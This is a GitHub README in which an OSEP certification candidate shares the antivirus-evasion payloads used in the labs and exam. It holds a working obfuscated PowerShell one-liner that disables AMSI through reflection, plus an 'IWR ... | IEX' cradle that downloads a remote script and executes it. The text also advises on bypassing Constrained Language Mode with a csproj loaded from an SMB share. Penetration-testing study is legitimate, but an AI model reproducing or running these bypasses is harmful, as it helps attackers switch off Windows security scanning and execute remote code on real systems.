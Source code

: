 # OSEP-Stuff

This repo contains all the payloads I had used in the OSEP challenge labs as well as my first(and coming tomorrow second exam attempt). For backround, I got plunged into the course like a month ago, and since I was off semester break and have the oscp, crtp as well as a fairly deep knowledge of Active Directory exploitation and was able to dedicate time from 10/11 am until 2 am on the osep; I felt confident to take it on! I am happy to fail it but feel that considering the monster effort I put in as well as my previous knowledge that it should go hopefully well!

I skipped about half the course. Certain sections I didnt really pay attention to, such as DotNetToJS since I didnt see a need for it. Other sections I skipped through such as network evasion, kisok breakout, and some of the Active Directory stuff since I was intimately fimilar with it all. The most time I spent was building robust, and simple payloads. I didnt develop many(as you can see from this repo) but I will personally compensate your exam attempt if these payloads get caught out by AV : ). I just wrote the same code in different format, just connect to my smbshare on kali and execute a csproj file. 

Sheldons FullBypass.csproj covered by every need at any moment when I needed a powershell session without amsi or clm; all I had to do was execute it and I was golden. The newest things for me were Linux, SSH and MSSQL exploitation. I reccomend deeply engaging with labs 3 and 4 as those will cover these abundantly. 

##Antivirus Bypass

I only used two payloads if sheldons fullbypass.csproj didnt work or if I didnt need to bypass clm and so only needed to bypass amsi: 

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
This payload I had gotten from the crtp course and what not. The next payload I used is in my amsi bypass folder. That one can simply be executed via 
```powershell
IWR -UseBasicParsing http://ip/sidestep.ps1 | IEX
```
You have two options; you either have no CLM and thus using the above script or one liner from the CRTP will instantly destroy amsi or you do have CLM, in which case you should use the FullBypass.csproj payload. It will work 70% of the time but sometimes AMSI is still present and so you will need to refer back to the one liner from above and keep running it till no more amsi. Simple, easy and clean. It really doesnt have to be all that complex and powershell reflection and all that to be able to quickly bypass amsi & clm
